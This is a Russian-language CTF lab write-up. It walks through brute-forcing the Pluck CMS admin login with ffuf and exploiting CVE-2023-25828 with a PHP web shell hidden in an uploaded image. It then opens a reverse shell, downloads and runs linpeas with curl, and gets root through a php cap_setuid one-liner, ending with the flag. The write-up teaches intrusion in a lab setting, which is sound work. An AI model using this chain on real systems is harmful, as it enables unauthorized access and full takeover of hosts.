 # Plucky-plucky

## Описание:
| Название | Сложность | Автор |
|------|-----|-------|
| Plucky-plucky | легкий | @collapsz |
## TLDR:

**CVE-2023-25828** в Pluck CMS, повышение привилегий через Linux Capabilities 

---
## Решение:
На веб-интерфейсе нас встречает система управления контентом Pluck CMS:

![image](https://github.com/user-attachments/assets/e0e55c6d-7d97-4b33-a093-3224ae450d6f)

Версия которой шустро узнается при помощи, например, `whatweb`:

![image](https://github.com/user-attachments/assets/944d573a-3d5a-4e4f-870d-3f35f9de98a8)

Шустрый ресерч подскажет нам вектор развития атаки: 

![image](https://github.com/user-attachments/assets/746eaaa0-3a23-4d05-aade-7d62523cc7ef)

Уязвимость в одном из модулей обработки изображений, однако она является `Authenticated`, значит нам нужно авторизоваться.
Пароль нам неизвестен, поэтому `ffuf` в помощь:

```
ffuf -u 'http://plucky.rdg/login.php' -d 'cont1=FUZZ&bogus=&submit=Log+in' -w /usr/share/wordlists/rockyou.txt
```
Узнаем пароль админа – `plucky12`, авторизуемся с ним и попадаем в админку. Дальше все как описано в CVE. 

Воспользуемся [Jellypeg](https://github.com/jra89/Jellypeg) для генерации полезной нагрузки, предварительно немного подредактировав скрипт и указав URL на существующее изображение:

![image](https://github.com/user-attachments/assets/83dd2bd6-41e5-4db4-b8c3-90ec7e235290)

Грузим нашу картинку (важно, чтобы расширение легитимное):

![image](https://github.com/user-attachments/assets/e2bfce84-411b-4087-adb6-40cbcb99c15d)

Перехватываем запрос и в конец `filename` приписываем `.php`:
![image](https://github.com/user-attachments/assets/8ab880be-da2e-4186-8e14-abe4e4dabb3b)
![image](https://github.com/user-attachments/assets/7aa4b376-d9a9-4ff5-8cf3-a2c04f940502)

"Картинка" успешно загружена:

![image](https://github.com/user-attachments/assets/0990688f-4e01-450a-922d-34ed4d90c24a)

А на ручке `/images/image.jpg.php?c=id` нас уже ожидает RCE:

![image](https://github.com/user-attachments/assets/9e8a7a38-f857-4ec6-81b7-db9142fa6296)

Пробрасываем себе реверс-шелл любым удобным способом:
![image](https://github.com/user-attachments/assets/87c8ca09-2378-400c-9edf-ff7412482e57)

Для удобного перечисления ресурсов системы воспользуемся Linpeas:

```
curl https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o /tmp/lin.sh && chmod +x /tmp/lin.sh && /tmp/lin.sh
```
Находим следующее:
```
www-data@c7e915851f7d:/var/www/html# getcap $(which php8.1)
/usr/bin/php8.1 cap_setuid=ep
```
Повышаемся [всем известный ресурс в помощь](https://gtfobins.github.io/gtfobins/php/):
```
CMD="/bin/sh"
$(which php8.1) -r "posix_setuid(0); system('$CMD');"
id
uid=0(root)
```
## Flag:
RDG{c63402a45aad5057636a6c456e1617ef}
